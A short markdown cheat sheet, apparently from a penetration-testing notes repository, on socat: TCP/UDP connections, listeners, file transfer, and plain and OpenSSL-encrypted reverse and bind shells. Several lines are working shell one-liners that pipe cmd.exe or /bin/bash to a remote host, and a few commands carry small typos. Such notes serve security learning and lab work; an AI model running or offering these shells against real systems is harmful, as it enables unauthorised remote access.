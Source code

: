# Socat

* ***Connect to tcp/udp***

```shell
socat - TCP4:10.10.10.10:80
```
<img width="557" alt="Screen Shot 2021-12-04 at 14 20 20" src="https://user-images.githubusercontent.com/92652606/144711022-1eb74d18-7ae9-4984-8d1a-a29d850142e8.png">

```shell
socat - UDP:10.0.0.0:53 
```
* ***Listening on a tcp/udp***

```shell
socat TCP4-LISTEN:1337 STDOUT
```

```shell
socat UDP-LISTEN:1337 STDOUT
```

* ***File Transfer***

```shell 
socat TCP4-LISTEN:1337,fork file:~/home/mastermind/key.txt # the file we will send 
```
```shell
socat - TCP4:0.0.0.0:1337 # TO download the file 
```
<img width="1038" alt="Screen Shot 2021-12-04 at 14 30 15" src="https://user-images.githubusercontent.com/92652606/144711309-69a659bf-52f3-41b4-9813-1016ca2d1051.png">

* ***Reverse Shell***

```shell
socat -d -d TCP4-LISTEN:1337 STDOUT # A LISTENER 
```
<img width="1081" alt="Screen Shot 2021-12-04 at 14 37 21" src="https://user-images.githubusercontent.com/92652606/144711609-e9fbe69c-25c2-4463-b0ac-9bf295bf316b.png">

```shell
socat - TCP4:192.168.1.107:1337 EXEC:cmd.exe
```
![screen](https://user-images.githubusercontent.com/92652606/144711614-8cb7efd5-d811-496a-aca0-1e334362ae33.png)

* ***Socat Encrypted Shell***

```shell
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt # make the key file and crt file using rsa 2048 

```
```shell
cat shell.key shell.crt > shell.pem 

```
```shell
socat OPENSSL:192.168.1.1:4444, verify=0 EXEC:/bin/bash # connect to 192.168.1.1 on port 4444 using openssl
```
```shell
socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes # bind shell
socat OPENSSL:192.168.1.120:4444,verify= 0 # connect to the target machine 
